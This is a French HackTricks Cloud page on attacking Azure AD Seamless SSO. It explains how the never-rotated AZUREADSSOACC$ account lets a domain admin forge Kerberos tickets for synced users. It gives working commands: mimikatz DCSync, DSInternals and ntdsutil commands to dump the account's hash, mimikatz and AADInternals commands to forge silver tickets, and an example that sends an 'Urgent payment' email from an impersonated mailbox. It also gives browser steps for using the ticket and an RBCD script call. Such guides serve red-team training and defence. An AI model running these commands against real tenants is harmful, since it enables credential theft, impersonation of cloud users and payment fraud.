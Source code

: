 # Az - Authentification unique sans couture

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

[À partir de la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) connecte automatiquement les utilisateurs lorsqu'ils sont sur leurs appareils d'entreprise connectés à votre réseau d'entreprise. Lorsqu'il est activé, **les utilisateurs n'ont pas besoin de taper leur mot de passe pour se connecter à Azure AD**, et généralement, même pas leur nom d'utilisateur. Cette fonctionnalité permet à vos utilisateurs d'accéder facilement à vos applications basées sur le cloud sans avoir besoin de composants supplémentaires sur site.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Essentiellement, Azure AD Seamless SSO **connecte les utilisateurs** lorsqu'ils sont **sur un PC rejoint à un domaine sur site**.

Il est pris en charge à la fois par [**PHS (Synchronisation de hachage de mot de passe)**](phs-password-hash-sync.md) et [**PTA (Authentification de passage)**](pta-pass-through-authentication.md).

Le SSO de bureau utilise **Kerberos** pour l'authentification. Lorsqu'il est configuré, Azure AD Connect crée un **compte d'ordinateur appelé AZUREADSSOACC`$`** dans l'AD sur site. Le mot de passe du compte `AZUREADSSOACC$` est **envoyé en texte clair à Azure AD** pendant la configuration.

Les **tickets Kerberos** sont **chiffrés** en utilisant le **NTHash (MD4)** du mot de passe et Azure AD utilise le mot de passe envoyé pour décrypter les tickets.

**Azure AD** expose un **point de terminaison** (https://autologon.microsoftazuread-sso.com) qui accepte les **tickets Kerberos**. Le navigateur de la machine rejointe au domaine transmet les tickets à ce point de terminaison pour le SSO.

### Sur site -> cloud

Le **mot de passe** de l'utilisateur **`AZUREADSSOACC$` ne change jamais**. Par conséquent, un administrateur de domaine pourrait compromettre le **hachage de ce compte**, puis l'utiliser pour **créer des tickets silver** pour se connecter à Azure avec **n'importe quel utilisateur sur site synchronisé** :
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Avec le hash, vous pouvez maintenant **générer des tickets silver** :
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Pour utiliser le ticket argenté, les étapes suivantes doivent être exécutées :

1. **Démarrer le navigateur :** Mozilla Firefox doit être lancé.
2. **Configurer le navigateur :**
   * Accéder à **`about:config`**.
   * Définir la préférence pour [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) aux [valeurs](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) spécifiées :
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Accéder à l'application Web :**
   * Visiter une application Web intégrée au domaine AAD de l'organisation. Un exemple courant est [Office 365](https://portal.office.com/).
4. **Processus d'authentification :**
   * À l'écran de connexion, saisir le nom d'utilisateur, laissant le champ du mot de passe vide.
   * Pour continuer, appuyer sur TAB ou ENTRÉE.

{% hint style="success" %}
Cela ne contourne pas l'authentification multifacteur si elle est activée.
{% endhint %}

#### ~~Création de tickets Kerberos pour les utilisateurs uniquement dans le cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si les administrateurs d'Active Directory ont accès à Azure AD Connect, ils peuvent **définir un SID pour tout utilisateur dans le cloud**. De cette manière, des **tickets Kerberos** peuvent également être **créés pour les utilisateurs uniquement dans le cloud**. La seule exigence est que le SID soit un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) approprié.

{% hint style="danger" %}
Le changement du SID des utilisateurs administrateurs uniquement dans le cloud est désormais **bloqué par Microsoft**.\
Pour plus d'informations, consultez [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### Sur site -> Cloud via la délégation contrainte basée sur les ressources <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Toute personne pouvant gérer les comptes d'ordinateur (`AZUREADSSOACC$`) dans le conteneur ou l'OU où se trouve ce compte peut **configurer une délégation contrainte basée sur les ressources sur le compte et y accéder**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
